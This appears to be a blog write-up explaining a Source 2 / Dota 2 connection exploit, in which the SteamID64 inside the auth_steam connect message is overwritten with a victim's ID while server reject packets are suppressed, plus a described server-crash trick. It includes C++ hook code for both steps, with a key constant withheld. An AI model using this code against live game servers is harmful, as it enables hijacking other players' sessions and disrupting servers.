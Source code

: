 ```
}
```

Most of these do what you think they do, but the one to focus on here is `auth_steam`. 
The first 8 bytes of this is your SteamID64.

How did **moofmonkey** find an exploit in this? Well I asked him for a more detailed story in how he found the exploit...

```
1. I experienced that if you'd reject S2C_REJECT - server will pass you, but will send REJECT_NOLOBBY unless *some value* (unknown at that point) weren't set right
2. I experienced that if I'd send 2 splitscreenplayers in that message instead of 1 - it'd crash server because of shitty fix after *[censored exploit that only lasted 1 day]*
3. I thought "it'd be funny if I'll find control exploit", looked up how auth_steam worked (I already knew its' structure because I tried to make bots) - first 8 bytes are steamid64.
Tried to change it - it gives reject_steam on 1st attempt if steamid exists on server, or nolobby if it doesn't. Then I tried old exploit with rejecting S2C_REJECT - and it worked.
```

A very nice explanation. Now we can get to the code.

## Code
I won't put a full pasta here, because this is definitely going to work on the other source 2 games and April 1st is over.
But it'll still be fun.

First let's get some way to get incoming **Connectionless** packets. I actually already had this in my [Source 2 SDK](https://github.com/LWSS/McDota/blob/master/src/SDK/CNetworkGameClient.h#L129), although parameters had changed since :(

{% highlight cpp %}

// global bool
inline deny_S2C_CONNREJECT = false;

if( deny_S2C_CONNREJECT && *GetPointer<char>(*GetPointer<void*>(a2, 32), 4) == '9' ){
    deny_S2C_CONNREJECT = false;
    return;
}
{% endhighlight %}

This will end the receive function early if we are rejecting.

And the main mystery-meat hook is what I call "SendPacket2"

{% highlight cpp %}
if( mc_victim_steamid->GetInt() != 0 // custom convar :P
&& dataLen > 5
&& *GetPointer<uint32_t>(data, 0) == 0xFFFFFFFF // CONNECTIONLESS_PACKET
&& *GetPointer<char>(data, 4) == 'k' // C2S_CONNECT
) {
    MC_PRINTF("memeing\n");
    auto proto_data = GetPointer<uint8_t>(data, 5);
    size_t proto_size = dataLen - 5;
    ReadVarInt(proto_data, proto_size);
    C2S_CONNECT_Message msg;
    msg.ParseFromArray(proto_data, proto_size);
    auto str = msg.mutable_auth_steam();
    if (str != nullptr && str->size() >= 8) {
        *(uint64_t*)str->data() = (uint64_t)mc_victim_steamid->GetInt() + /*MAGIC*/;
        msg.SerializePartialToArray(proto_data, proto_size);
        deny_S2C_CONNREJECT = true;
        networkSystemVMT->GetOriginalMethod<SendPkt2Fn>( 24 )( thisptr, slot, data, dataLen );
        return;
    }
}
{% endhighlight %}